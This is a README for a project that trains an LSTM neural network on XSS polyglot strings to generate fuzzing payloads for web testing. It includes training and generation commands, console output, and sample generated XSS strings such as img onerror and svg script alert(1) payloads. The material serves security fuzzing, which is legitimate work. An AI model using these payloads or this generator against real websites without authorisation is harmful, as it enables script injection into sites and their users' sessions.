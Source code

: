 # Generating XSS Payloads from Polyglot Files using Deep Learning

The scripts below serve to generate fuzz data for websites by training a neural network designed and implemented in
Keras to mimic the statstical patterns evident in the sequences of characters that make up an XSS payload. The essential 
argument here is that since the text that makes up an XSS payload is essentially a sequence of numbers/characters, and 
the selection probability of each characters in each position it appears can be modelled as essentially a 
sequence prediction problem for a LSTM with rich enough representation mechanisms for a the given data set. I use a web 
hacking experts list of preffered polyglot strings to train the network here.

In a real web attack/testing scenario this network I believe can offer a good source of fuzz data 
honed by the contributive efforts of an entire web hacking community and dynamically adjusted to its 
trends and favored HTML/java/SVN trouble causing grammar hotspots i.e. perhaps web apps are toppling dew 
to iframe onclick event handling more than SVN due to context of certain framework - you can then spin this 
up and train it on some dirt iframe tags and you will have a good source of live/random fuzz data directly 
hitting the iframe part of the grammar, further more you can probably very easily mix in and take out parts 
of the grammar as you please by adjusting the training sample.
 

## How to use
The project includes two scripts

* `learn_payloads.py`  used to train the neural net on a set of payloads, this produces a set of weights.
* `generate_payloads.py` used to generate payloads based on a trained set of weights.  

### Training the Neural Net
In order to get the net to spit out payloads that look "polyglotty" enough (according to the structural set up I have) all you need to do is run the `learn_payloads.py` script and it will sweep up all the strings you have in a given file and try to learn the rules used to generate them so it can produce more like that.

Here's how its done:
```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12/run2$ ../../../learn_payloads.py ../../data/jhaddix.txt 
Using TensorFlow backend.
['\t', '\n', ' ', '!', '"', '#', '$', '%', '&', "'", '(', ')', '*', '+', ',', '-', '.', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', ';', '<', '=', '>', '?', '@', 'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z', '[', '\\', ']', '^', '_', '`', 'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z', '{', '}', '~', '\x80', '\x82', '\x85', '\x86', '\x89', '\x8e', '\x8f', '\x90', '\x92', '\x93', '\x98', '\x9d', '\xa2', '\xaf', '\xbc', '\xbd', '\xbe', '\xc2', '\xc3', '\xe2']
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
12 1
116
[*] training model...
Epoch 1/50
2018-03-12 21:00:06.275223: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
 3450/36884 [=>............................] - ETA: 8:11 - loss: 4.1146^[c
 3500/36884 [=>............................] - ETA: 8:10 - loss: 4.1133
 3550/36884 [=>............................] - ETA: 8:09 - loss: 4.1095

```

This will produce a list of weights files (used to set up the neural net from scratch if you need to use it later):

```
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:48 seq-12-weights-improvement-01-3.8815.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 22:54 seq-12-weights-improvement-02-3.4597.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:00 seq-12-weights-improvement-03-3.0045.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 26 23:06 seq-12-weights-improvement-04-2.6040.hdf5
...
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:17 seq-12-weights-improvement-19-0.5382.hdf5
-rw-rw-r-- 1 keth keth 38566192 Feb 27 00:20 seq-12-weights-improvement-20-0.5177.hdf5

```

### Generating Payloads
In order to generate payloads you need to run the `generate_payloads.py` script, it takes in the original data file you used to train the net and a weight configuration you'd like to use (try choosing one with a low enough weight to satisfy your payload generatio nneeds) here's how to do that:

```
keth@keithbook:~/pymlprojects_main/PyMLProjects/payloads/jhaddix/seq-12$ ../../generate_payloads.py ../data/jhaddix.txt seq-12-weights-improvement-50-0.3361.hdf5 
Using TensorFlow backend.
[*] Total Characters: 36896
[*] Total Vocab: 116
[*] Total Patterns: 36884
2018-03-12 21:10:21.244253: I tensorflow/core/platform/cpu_feature_guard.cc:137] Your CPU supports instructions that this TensorFlow binary was not compiled to use: SSE4.1 SSE4.2 AVX AVX2 FMA
[*] Seed: 'e?\/onerror '

= alert(1)???
<svg><script ?>alert(1)
<input talue="``onmouseover=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=alert(1)"></dire <dtr sac tooreo=al
e="x:">
<--`<img/src=` onerror=alert(1)>/script>">script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementById(%div2").innerHTML;</script>
<script> document.getElementB
TML=innerHTML</script>

```
*some stderr output has been supressed, tensor flow and keras like to make a lot of noise hehe

## Dependencies

The only thing you need to get this up and running is a working python install and whatever else you need to run Keras, smoothly.
Python Keras : https://keras.io/ 


Further Reading and Similar ideas:
*  http://www.ieeeconfpublishing.org/cpir/UploadedFiles/ver11.0.pdf 
*  http://machinelearningmastery.com/text-generation-lstm-recurrent-neural-networks-python-keras/ 
*  https://0day.work/using-neural-networks-for-password-cracking/ 
